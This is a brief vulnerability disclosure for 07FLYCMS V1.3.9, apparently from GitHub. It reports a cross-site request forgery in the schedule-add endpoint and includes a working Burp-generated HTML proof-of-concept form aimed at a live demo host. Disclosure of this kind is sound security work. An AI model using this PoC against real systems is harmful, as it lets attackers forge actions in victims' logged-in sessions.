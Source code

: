 
target:https://github.com/lingqifei/07fly-crm
version: V1.3.9

07FLYCMS V1.3.9 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://erp.07fly.net:80/oa/OaSchedule/add.html

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://erp.07fly.net:80/oa/OaSchedule/add.html" method="POST">
      <input type="hidden" name="name" value="cs" />
<input type="hidden" name="start_time" value="2024-10-17+21%3A01%3A36" />
<input type="hidden" name="end_time" value="2024-10-17+21%3A01%3A37" />
<input type="hidden" name="level" value="0" />
<input type="hidden" name="content" value="%3Cdiv+id%3D%22translatorExtensionContainer%22+class%3D%22translatorExtension%22%3E%0D%0A%3C%2Fdiv%3E%0D%0A%3Cdiv+class%3D%22translatorExtension%22+style%3D%22margin%3A0px+auto%3B%22%3E%0D%0A%3C%2Fdiv%3E" />
<input type="hidden" name="status" value="" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

